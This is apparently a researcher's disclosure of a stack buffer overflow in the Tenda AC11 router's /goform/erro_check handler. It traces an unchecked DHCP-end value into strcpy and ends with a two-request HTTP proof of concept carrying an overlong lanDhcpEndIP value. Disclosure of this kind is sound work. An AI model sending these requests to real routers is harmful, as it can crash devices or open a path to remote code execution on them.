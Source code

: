 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/erro_check` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_80014DE0` (page `/goform/erro_check`).

This function uses `strcpy` to copy the string pointed by `v7` into a stack buffer pointed by `v28`. `v5` is directly retrived from the nvram variable `dhcp_end` without any security check.

![1](1.PNG)

the `dhcp_end` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanDhcpEndIP` into varialbe `v19`.And `v19` will be copied to a variable `v44`.

If `gstrcmp_0(v9,"true")` returns zero, and `gstrcmp_0(v7+148,v44)` returns  1, then the nvram variable `lan_netmask` will be set as `v44`.
And in function `gstrcmp`, if parameter 1 is equal to parameter 2,it will return zero. 

![2](2.PNG)

Variable `v9` can be controlled by mallicious attacker. So it will be set as `true`.And `v44` is also controlled by attacker. It's easy to make a different from a fixed variable. 

![3](3.PNG)

So by first setting the `dhcp_end` and then requesting the page `/goform/erro_check`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&dhcpEn=true&lanDhcpEndIP=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/erro_check HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@1chig0](https://github.com/1chig0), and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University.
